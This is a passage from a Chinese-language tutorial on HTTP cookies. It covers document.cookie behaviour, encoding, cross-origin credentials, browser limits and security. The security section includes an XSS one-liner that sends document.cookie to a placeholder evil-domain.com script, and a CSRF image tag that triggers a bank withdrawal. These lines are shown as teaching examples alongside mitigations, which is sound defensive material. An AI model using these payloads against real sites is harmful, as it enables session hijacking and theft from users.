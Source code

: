 `document.cookie` 读写行为的差异（一次可以读出全部 Cookie，但是只能写入一个 Cookie），与 HTTP 协议的 Cookie 通信格式有关。浏览器向服务器发送 Cookie 的时候，Cookie 字段是使用一行将所有 Cookie 全部发送；服务器向浏览器设置 Cookie 的时候，Set-Cookie 字段是一行设置一个 Cookie。

##### 1.1.6.cookie 编码

对于 cookie 的值进行编码一直都存在一些困惑。普遍认为 cookie 的值必须经过 URL 编码，但其实这是一个谬论，尽管通常都这么做。原始规范中明确指出只有三个字符必须进行编码：分号、逗号和空格，规范中还提到可以进行 URL 编码，但并不是必须，在 RFC 中没有提及任何编码。然而，几乎所有的实现都对 cookie 的值进行了一系列的 URL 编码。对于 `name=value` 格式，通常会对 name 和 value 分别进行编码，而不对等号 = 进行编码操作。

##### 1.1.7.跨域请求中 cookie

在发同域请求时，浏览器会将 cookie 自动加在 request header 中。但大家是否遇到过这样的场景：在发送跨域请求时，cookie 并没有自动加在 request header 中。

造成这个问题的原因是：在 CORS 标准中做了规定，默认情况下，浏览器在发送跨域请求时，不能发送任何认证信息（credentials）如 "cookies" 和 "HTTP authentication schemes"。除非 `xhr.withCredentials` 为 true（xhr 对象有一个属性叫 `withCredentials`，默认值为 false）。

所以根本原因是 cookies 也是一种认证信息，在跨域请求中，client 端必须手动设置 `xhr.withCredentials=true`，且 server 端也必须允许 request 能携带认证信息（即 response header 中包含 `Access-Control-Allow-Credentials:true`），这样浏览器才会自动将 cookie 加在 request header 中。

另外，要特别注意一点，一旦跨域 request 能够携带认证信息，server 端一定不能将 `Access-Control-Allow-Origin` 设置为 `*`，而必须设置为请求页面的域名，否则浏览器将会抛出 `The value of the 'Access-Control-Allow-Origin' header in the response must not be the wildcard '*'` 错误。

#### 1.2.Cookie 限制条件

cookie 存在许多限制条件，来阻止 cookie 滥用并保护浏览器和服务器免受一些负面影响。有两种 cookie 限制条件：cookie 的属性和 cookie 的总大小。原始规范中限定每个域名下不超过 20 个 cookie，早期的浏览器都遵循该规范，并且在 IE7 中有更近一步的提升。在微软的一次更新中，他们在 IE7 中增加 cookie 的限制数量到 50 个，与此同时 Opera 限定 cookie 数量为 30 个，Safari 和 Chrome 对与每个域名下的 cookie 个数没有限制。

发向服务器的所有 cookie 的最大数量（空间）仍旧维持原始规范中所指出的：4KB。所有超出该限制的 cookie 都会被截掉并且不会发送至服务器。

#### 1.3.安全

> 当机器处于不安全环境时，切记不能通过 HTTP Cookie 存储、传输敏感信息。

##### 1.3.1 会话劫持和 XSS

在 Web 应用中，Cookie 常用来标记用户或授权会话。因此，如果 Web 应用的 Cookie 被窃取，可能导致授权用户的会话受到攻击。常用的窃取 Cookie 的方法有利用社会工程学攻击和利用应用程序漏洞进行 XSS 攻击。

`(new Image()).src = "http://www.evil-domain.com/steal-cookie.php?cookie=" + document.cookie;`

`HttpOnly` 类型的 Cookie 由于阻止了 JavaScript 对其的访问性而能在一定程度上缓解此类攻击。

##### 1.3.2.跨站请求伪造（CSRF）

比如在不安全聊天室或论坛上的一张图片，它实际上是一个给你银行服务器发送提现的请求：

`<img src="http://bank.example.com/withdraw?account=bob&amount=1000000&for=mallory">`

当你打开含有了这张图片的 HTML 页面时，如果你之前已经登录了你的银行帐号并且 Cookie 仍然有效（还没有其它验证步骤），你银行里的钱很可能会被自动转走。有一些方法可以阻止此类事件的发生：

- 对用户输入进行过滤来阻止 XSS；
- 任何敏感操作都需要确认；
- 用于敏感信息的 Cookie 只能拥有较短的生命周期；
- 更多方法可以查看 OWASP CSRF prevention cheat sheet。
